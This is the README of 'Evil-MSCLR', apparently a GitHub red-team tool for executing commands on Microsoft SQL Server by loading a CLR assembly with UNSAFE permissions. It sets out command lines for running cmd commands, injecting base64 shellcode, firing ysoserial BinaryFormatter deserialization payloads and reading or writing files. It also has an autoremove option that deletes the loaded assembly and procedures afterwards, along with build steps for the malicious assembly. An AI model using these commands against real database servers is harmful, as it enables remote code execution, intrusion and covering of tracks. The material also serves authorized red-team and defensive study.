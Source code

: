# Evil-MSCLR

A tool for red teams to use the CLR feature in MSSQL to execute commands and load shellcode.

[![](assets/img/ShellCode.png)](assets/Cobalt.mp4)

> To use this tool, you must have access to a user with the sysadmin or serveradmin role.

* [Build](#build)
* [Usage](#Usage)
    * [LoadAssembly](#loadassembly)
    * [AutoRemove](#autoremove)
    * [Example](#example)
        * [ShellCode](#shellcode)
        * [BinaryFormatter](#binaryformatter)

## Usage

```bash
.\Evil-MSCLR.exe --help
Usage of C:\Evil-MSCLR.exe:
  -autoremove
        Automatic deletion of loaded assembly and created procedures
  -config string
        Config file path (default "config.json")
  -function string
        Function used in module loaded in MSSQL CLR
  -argument string
        Argument for the function used
  -file string
        Reading argument value from file
  -functions
        Description of functions available in the module loaded in MSSQL
  -loadassembly
        Loading Assembly into MSSQL
```

### LoadAssembly

```powershell
Evil-MSCLR.exe -loadassembly
```

![](assets/img/loadassembly.png)

### AutoRemove

Automatic deletion of loaded assembly and created procedures.

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami -autoremove
```
![](assets/img/autoremove.png)


### Function

For a description of the functions available in the module loaded in MSSQL, use the following command:
```bash
.\Evil-MSCLR.exe -functions
Name: BinaryFormatter
Description: This function is used to execute serialized payloads.
Example: ysoserial.exe -f BinaryFormatter -g ResourceSet -o base64 -c 'cmd.exe /c echo hello > C:\msg.txt'
 Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument 'base64 Payload'
------------------------
Name: ShellCode
Description: This function is used to execute shellcode, may be unsafe and may cause MSSQL service to crash.
Example: Evil-MSCLR.exe -loadassembly -function ShellCode -argument 'base64 shellcode'
------------------------
Name: Command
Description: This function is used to execute cmd commands, using this function will create a cmd process.
Example: Evil-MSCLR.exe -loadassembly -function Command -argument 'whoami'
------------------------
Name: FileSystem
Description: This function is used to create, read, write, and delete files.
Example: Evil-MSCLR.exe -loadassembly -function FileSystem -argument 'read,c:\Windows\System32\drivers\etc\hosts'
```

#### Example

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami
```

![](assets/img/function.png)

#### ShellCode

```powershell
Set-Content -Path "payload.b64.txt" -Value ([System.Convert]::ToBase64String(([System.IO.File]::ReadAllBytes("payload_x64.bin"))))

Evil-MSCLR.exe -loadassembly -function ShellCode -file payload.b64.txt
```

![](assets/img/ShellCode.png)

#### BinaryFormatter

```powershell
Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument "AAEAAAD/////AQAAAAAAAAAEAQA..." -autoremove
```

![](assets/img/BinaryFormatter.png)

## Build

Install Visual Studio `Data Storage and Processing` workload.

* Compile the CLR module located in the [StoredProcedure](StoredProcedure/) folder.
* In the `StoredProcedure\StoredProcedure\bin\Release` path, a file named `StoredProcedure_Create.sql` is generated, which contains the SQL code for loading the module.
* In the `"CREATE ASSEMBLY"` section, put the value in Hex in the `assembly field` in the `"config.json"` file.

For example:

`StoredProcedure_Create.sql`

```sql
CREATE ASSEMBLY [StoredProcedure]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF00...
    WITH PERMISSION_SET = UNSAFE;
```

`config.json`

```json
{
    "assemblyname":"StoredProcedure",
    "assembly":"0x4D5A90000300000004000000FFFF00..."
}
```
